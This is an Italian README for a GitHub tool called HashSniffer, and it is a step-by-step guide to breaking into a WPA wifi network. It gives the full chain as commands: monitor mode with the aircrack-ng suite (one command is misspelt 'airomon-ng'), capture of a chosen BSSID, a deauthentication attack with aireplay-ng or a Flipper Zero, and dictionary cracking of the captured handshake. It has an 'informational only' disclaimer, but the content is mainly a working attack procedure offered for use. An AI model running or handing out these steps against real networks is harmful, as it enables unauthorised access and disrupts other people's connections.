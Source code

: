 # Page 1

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code.

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repository in locale:

```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```

Successivamente eseguiamo il tool:

```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```

## $${\color{green}Guida \space manuale}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato. Iniziamo aprendo un terminale e seguendo i seguenti comandi:


```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```

<div align="center">

<img src="img/1.png" alt="">

</div>

Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <YOURE WIRELESS EXTENSION>
```

<div align="center">

<img src="img/2.png" alt="">

</div>

Successivamente per visualizzare tutte le reti disponibili:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```

\


<div align="center">

<img src="img/4.png" alt="">

</div>

Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```

In questo modo stiamo verificando solo la rete in questione.

## $${\color{green}Deauth \space \color{red} Attack}$$

Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...). Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.

Deauth attack con Flipper Zero:

<div align="center">

<img src="img/flipper.jpg" alt="" width="300">

</div>

Attacco deauth integrato tramite il comando:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```

<div align="center">

<img src="img/5.png" alt="">

</div>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```

<div align="center">

<img src="img/6.png" alt="">

</div>

Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$

[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32).\
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder).\
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
